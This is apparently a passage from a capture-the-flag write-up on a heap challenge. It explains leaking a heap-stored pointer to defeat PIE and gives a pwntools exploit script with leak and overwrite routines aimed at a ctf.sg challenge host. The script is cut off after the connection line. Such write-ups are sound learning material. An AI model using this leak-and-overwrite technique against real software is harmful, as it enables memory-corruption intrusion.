 All contents of every node is stored on a contiguous chunk in the heap, and is sorted by sizes.

For each size, there is a maximum number of node that can be added, to prevent heap overflow.

Hence the program keeps count of the number of nodes stored for each size group, and a pointer to this count is also stored in the same chunk as the buffer.

Hence, the exploit allocates 2 chunks in different size groups, and modified the smaller chunk to fill up all the null bytes up to the pointer, so that the pointer address can be leaked, allowing us to resolve PIE.

```python
# coding: utf-8
from pwn import *

def call(addr):
    p.sendlineafter(b"option: ", b"1")
    p.sendlineafter(b"seed: ", b"180")

    for i in range(16):
        p.sendlineafter(b"here? ", b"34")

    p.sendlineafter(b"option: ", b"3")
    p.sendlineafter(b"message: ", f"{-131032+40}")

    orig = p64(addr)
    win = b""

    for byte in orig:
        tmp = (byte ^ 0x22) - 0x22
        if tmp < 0:
            tmp += 256
        win += tmp.to_bytes(1, 'little')


    p.sendline(b"A"*64 + win)


def leak():
    p.sendlineafter(b"option: ", b"2")

    p.sendlineafter(b"do? ", b"1")
    p.sendlineafter(b"buffer: ", b"100")
    p.sendlineafter(b"node: ", b"CHUNK SIZE 100")

    p.sendlineafter(b"do? ", b"1")
    p.sendlineafter(b"buffer: ", b"20")
    p.sendlineafter(b"node: ", b"CHUNK SIZE 20")

    p.sendlineafter(b"do? ", b"2")
    p.sendlineafter(b"index: ", b"2")
    p.sendlineafter(b"buffer: ", b"1296")
    p.sendlineafter(b"node: ", b"A"*1296)

    p.sendlineafter(b"do? ", b"4")
    p.sendlineafter(b"index: ", b"2")
    p.recvuntil("buffer!\n\n")
    ret = unpack(p.recvline().lstrip(b"A").strip(b'\n'), 'all')

    # cleanup
    p.sendlineafter(b"do? ", b"6")
    return ret


if args.REMOTE:
    p = remote('chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg', 64421)
```